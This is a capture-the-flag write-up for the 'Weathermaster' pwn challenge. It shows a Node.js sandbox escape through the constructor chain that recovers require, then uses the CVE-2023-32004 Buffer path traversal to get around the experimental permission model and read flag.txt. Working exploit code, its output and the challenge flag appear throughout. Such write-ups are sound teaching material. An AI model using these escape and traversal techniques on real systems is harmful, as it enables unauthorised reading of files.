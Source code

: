 # [pwn - Weathermaster](https://hack.cert.pl/challenge/weathermaster)

You can execute nodejs code using `! <code>`. 

#### Import `fs`
```js
! const global = this.constructor.constructor("return global;")();
! const require = global.process.mainModule.require;
! const fs = require('fs');
```

#### List files in current dir
```js
! print(fs.readdirSync('.', 'utf-8'))

// output: [ 'core', 'index.js', 'logs', 'run.sh' ]
```

#### Read `run.sh` to get more information
```js
! print(fs.readFileSync('run.sh', 'utf-8'))
```
You can see that it uses `--allow-fs-read` with `--experimental-permission`:
```bash
#!/bin/sh

node --experimental-permission --allow-fs-read="/app/*" /app/index.js
```
The experimental feature has vulnerability [CVE-2023-32004](https://nvd.nist.gov/vuln/detail/CVE-2023-32004).

#### Read the flag
Use Buffer path traversal vulnerability to read the flag:
```js
! const buffer = require('buffer');
! print(fs.readdirSync(buffer.Buffer.from('/app/../'), 'utf-8'))

//  [
//   '.dockerenv', 'app',
//   'bin',        'dev',
//   'etc',        'flag.txt',
//   'home',       'lib',
//   'media',      'mnt',
//   'opt',        'proc',
//   'root',       'run',
//   'sbin',       'srv',
//   'sys',        'tmp',
//   'usr',        'var'
// ]

! print(fs.readFileSync(buffer.Buffer.from('/app/../flag.txt'), 'utf-8'))

// ecsc24{whats_th3_f0recast_f0r_nodejs?}
```

### Flag
```
ecsc24{whats_th3_f0recast_f0r_nodejs?}
```